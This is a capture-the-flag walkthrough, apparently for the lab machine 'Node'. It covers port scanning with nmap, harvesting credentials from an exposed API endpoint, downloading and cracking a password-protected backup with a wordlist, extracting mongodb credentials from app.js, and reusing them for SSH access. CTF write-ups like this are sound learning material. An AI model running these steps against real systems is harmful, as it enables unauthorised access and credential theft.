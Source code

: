 ## Node

#### Scan to discover open ports
```sh
nmap -sS -P0 -n -p- -T5 -oA nmap-tcp-allports-fast 10.10.10.58
```

#### Enumerate the discovered ports
```sh
nmap -sV -n -sC -p22,3000 -oA nmap-tcp-foundports 10.10.10.58
```

Gobuster/dirbuster doesn't work as every response returns 200.

So fire up burp to intercept a request to `http://10.10.10.58:3000/`. Notice that there are 2 responses; one for `/` as expected but then another one for `/<uuid>`.

Navigate to the `/<uuid>` link from a browser through Burp. Go to the Target -> Site Map tabs and expand the 10.10.10.58 host. Notice the `/api/users/latest` file and you should see json content. If not then you can run:
```sh
$ curl -s http://10.10.10.58:3000/api/users | json_pp
```


Naviagate to the login page in a web browser at `http://10.10.10.58:3000/login`, enter the admin credentials discovered in `http://10.10.10.58:3000/api/users` and click the `Login` button.
Once you'ev logged in, click the `Download Backup` button that is presented to you and save the file as `myplace.backup.zip`.

#### Decode the content to reveal a zip file
```sh
$ base64 --decode myplace.backup > myplace.backup.zip
```

#### Crack the zip file
```sh
$ crackzip -D -p /usr/share/wordlists/rockyou.txt -u myplace.backup.zip
```

#### Unzip the backup
```sh
$ unzip myplace.backup.zip
```

#### Review the app.js file
```sh
$ vim -R var/www/myspace/app.js
```

Notice the `const url` towards the top which contains a mongodb connection string including a username and password.

#### SSH into the Node box using the mongodb creds we just found
```sh
$ ssh 10.10.10.58 -l mark
```
